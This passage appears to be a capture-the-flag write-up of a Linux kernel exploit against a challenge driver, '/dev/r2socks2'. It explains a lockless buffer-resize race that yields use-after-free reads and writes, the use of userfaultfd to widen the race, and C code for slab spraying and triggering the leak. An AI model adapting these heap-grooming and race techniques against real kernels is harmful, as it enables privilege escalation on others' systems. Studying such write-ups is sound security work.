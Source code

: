You can also see that the old buffer always gets freed and filled with 0xcc values 
by the end of the resize.

Since there are no locks, we can for example race with a read operation in 
order to free the buffer before it's copied to userspace. Then we have a UAF 
read. Similarly, we can race with a write operation to cause a UAF write.

This is made easier by enabling unprivileged userfaultfd, which allows to stop 
the kernel at the right moment.

## Exploit

The exploit first creates a number of sockets of size 0x20 to exhaust the slab cache and make sure they are contiguous.

Then it makes a few more sockets and connects them:

```c

    for(int i=0; i < 0x400 - 0x10; i++) {
        // Open a bunch of size 0 (alloc size 0x20 for all of them)
        int fd = open("/dev/r2socks2", O_RDONLY);
        sock_init(fd, 0x20);
    }
    /* Let's have two socks */

    printf("[*] Creating server0\n");
    server[0] = open("/dev/r2socks2", O_RDONLY);
    sock_init(server[0], 0x80);
    sock_listen(server[0], "socket0");  

    printf("[*] Creating server1\n");
    server[1] = open("/dev/r2socks2", O_RDONLY);
    sock_init(server[1], 0x80);
    sock_listen(server[1], "socket1");

    printf("[*] Creating server2\n");
    server[2] = open("/dev/r2socks2", O_RDONLY);
    sock_init(server[2], 0x80);
    sock_listen(server[2], "socket2");  

    printf("[*] Creating client0\n");
    client[0] = open("/dev/r2socks2", O_RDONLY);
    sock_init(client[0], 0x80);
    sock_connect(client[0], "socket0");
```

The exploit sets up a userfaultfd mapping with 2 pages, and uses this to 
trigger two UAF (read and write) as explained before.

For the read, we first send data to the socket and then read back using the 
uffd mapping:

```c
    /* Prefill buffer with some data so we can read back */
    sock_send(server[0], buf1, 0x70);
    /*
     *  Do an unaligned read so we leak as much as possible
     * client[0] buffer gets freed and replaced by a sock_buf_t (for uaf[0])
     */

    int x = sock_recv(client[0], map + 1, 0x70);
```
